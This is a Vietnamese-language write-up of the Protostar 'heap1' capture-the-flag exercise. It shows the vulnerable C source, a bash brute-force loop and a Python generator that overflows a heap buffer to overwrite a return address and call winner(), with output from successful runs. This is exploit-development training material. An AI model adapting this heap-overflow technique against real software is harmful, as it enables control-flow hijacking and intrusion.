


# **heap1**
## Source code
```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>

struct internet {
  int priority;
  char *name;
};

void winner()
{
  printf("and we have a winner @ %d\n", time(NULL));
}

int main(int argc, char **argv)
{
  struct internet *i1, *i2, *i3;

  i1 = malloc(sizeof(struct internet));
  i1->priority = 1;
  i1->name = malloc(8);

  i2 = malloc(sizeof(struct internet));
  i2->priority = 2;
  i2->name = malloc(8);

  strcpy(i1->name, argv[1]);
  strcpy(i2->name, argv[2]);

  printf("and that's a wrap folks!\n");
}
```

## Vulnerability
strcpy()
## Exploit
- Phân tích bộ nhớ:



- Có thể dùng overflow của strcpy thứ nhất để ghi đè lên vùng heap của i2.
- Hàm strcpy() nhận vào địa chỉ của nguồn và đích. Nếu ta chỉnh sửa địa chỉ đích thành địa chỉ một ô chứa return address thì có thể thay đổi flow của chương trình.



- Địa chỉ hàm winner(): 0x08048494
- Địa chỉ return address của strcpy() thứ 2: Tương tự như bài format4: tìm trong gdb dễ, nhưng chạy thực tế thì stack sẽ bị xê dịch. Trong bài này không có cách tìm được địa chỉ return address nên sẽ đoán.
- Trong gdb, địa chỉ return address là: 0xbfff73c. Thử với +- 150.

**bash script**
```
#!/bin/bash

for i in {-150..150}; do
echo $i;
/opt/protostar/bin/heap1 $(python /path/to/python/attack-string/generator.py $i)
done
```

**python attack-string generator**
```
import struct
import sys

gdb_strcpy_return_addr = struct.pack("I", 0xbffff73c + int(sys.argv[1]))
winner_addr = struct.pack("I", 0x08048494)

print "A"*0x14 + gdb_strcpy_return_addr + " " + winner_addr
```
- Kết quả chạy: /bin/bash /path/to/bashscript
```
64
and we have a winner @ 1654273060
bash_script: line 3:  4718 Segmentation fault      /opt/protostar/bin/heap1 $(python /tmp/script.py $i)

112
and that's a wrap folks!
and we have a winner @ 1654273061
bash_script: line 3:  4814 Segmentation fault      /opt/protostar/bin/heap1 $(python /tmp/script.py $i)
```
- Thành công ở 2 lần i bằng 64 và 112. Sau một hồi suy nghĩ thì mới nhận ra ngoài ghi đè lên return address ở strcpy() thứ 2 thì ta cũng có thể ghi đè lên return address của main nữa. 

- Thêm địa chỉ hàm exit vào cuối attack-string để không bị segmentation fault

**python attack-string generator**
```
import struct
import sys

gdb_strcpy_return_addr = struct.pack("I", 0xbffff73c + int(sys.argv[1]))
winner_addr = struct.pack("I", 0x08048494)
exit_addr = struct.pack("I", 0xb7ec60c0)

print "A"*0x14 + gdb_strcpy_return_addr + " " + winner_addr + exit_addr

```
# References